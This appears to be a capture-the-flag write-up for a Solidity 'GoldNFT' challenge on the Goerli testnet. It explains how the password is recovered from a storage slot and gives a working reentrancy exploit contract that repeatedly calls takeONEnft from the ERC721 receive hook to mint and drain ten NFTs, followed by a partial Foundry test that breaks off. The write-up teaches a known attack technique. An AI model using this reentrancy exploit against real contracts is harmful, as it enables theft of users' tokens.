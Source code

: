 The contract will call `read()` on `0xe43029d90B47Dd47611BAd91f24F87Bc9a03AEC2` in goerli.

If we decompile it we will find it just taking that password as the storage slot and read a boolean from that slot.

On the contract creation transaction, we can see that the storage slot `0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe` is changed to `0x0000000000000000000000000000000000000000000000000000000000000001`

So we can just set our password to `0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe`

Because it have a `if (!minted)` check , we need use reentrancy to attack it .

## Attack
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC721} from "lib/openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import "./GoldNFT.sol";

contract HackGoldNft {
    uint256 i;

    function exploit(address addr) external {
        GoldNFT(addr).takeONEnft(0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe);
        for (uint256 id = 1; id < 11; ++id) {
            GoldNFT(addr).transferFrom(address(this), msg.sender, id);
        }
    }

    function onERC721Received(address, address, uint256, bytes memory) public returns (bytes4) {
        i += 1;
        if (i < 11) {
            GoldNFT(msg.sender).takeONEnft(0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe);
        }
        return this.onERC721Received.selector;
    }
}
```

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/GoldNFT/GoldNFT.sol";
import "../src/GoldNFT/HackGoldNft.sol";

contract Hack is Test {
    GoldNFT nft;
    HackGoldNft nftHack;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() external {
        vm.createSelectFork("goerli", 8591866);
        nft = new GoldNFT();
    }

    function test_Attack() public {
        vm.startPrank(hacker);
        // solution
```